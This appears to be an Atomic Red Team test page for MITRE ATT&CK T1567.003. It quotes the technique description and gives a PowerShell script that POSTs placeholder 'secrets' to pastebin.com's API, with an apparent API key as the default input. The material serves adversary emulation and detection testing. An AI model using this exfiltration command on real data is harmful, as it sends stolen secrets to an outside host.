 ```yaml
---
tags: [T1567_003, atomic_test]
filename: "[[T1567.003|T1567.003 - Exfiltration Over Web Service: Exfiltration to Text Storage Sites]]"
---
```


# T1567.003 - Exfiltration Over Web Service: Exfiltration to Text Storage Sites
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1567/003)
<blockquote>Adversaries may exfiltrate data to text storage sites instead of their primary command and control channel. Text storage sites, such as <code>pastebin[.]com</code>, are commonly used by developers to share code and other information.  

Text storage sites are often used to host malicious code for C2 communication (e.g., [Stage Capabilities](https://attack.mitre.org/techniques/T1608)), but adversaries may also use these sites to exfiltrate collected data. Furthermore, paid features and encryption options may allow adversaries to conceal and store data more securely.(Citation: Pastebin EchoSec)

**Note:** This is distinct from [Exfiltration to Code Repository](https://attack.mitre.org/techniques/T1567/001), which highlight access to code repositories via APIs.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data with HTTP POST to text storage sites - pastebin.com (Windows)](#atomic-test-1---exfiltrate-data-with-http-post-to-text-storage-sites---pastebincom-windows)


<br/>

## Atomic Test #1 - Exfiltrate data with HTTP POST to text storage sites - pastebin.com (Windows)
This test uses HTTP POST to exfiltrate data to a remote text storage site. (pastebin)                             
See https://web.archive.org/web/20201107203304/https://www.echosec.net/blog/what-is-pastebin-and-why-do-hackers-love-it

**Supported Platforms:** Windows


**auto_generated_guid:** c2e8ab6e-431e-460a-a2aa-3bc6a32022e3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| api_key | Pastebin API key | string | 6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0|


#### Attack Commands: Run with `powershell`! 


```powershell
$apiKey = "#{api_key}"
$content = "secrets, api keys, passwords..."
$url = "https://pastebin.com/api/api_post.php"
$postData = @{
  api_dev_key   = $apiKey
  api_option    = "paste"
  api_paste_code = $content
}
$response = Invoke-RestMethod -Uri $url -Method Post -Body $postData
Write-Host "Your paste URL: $response"
```






<br/>
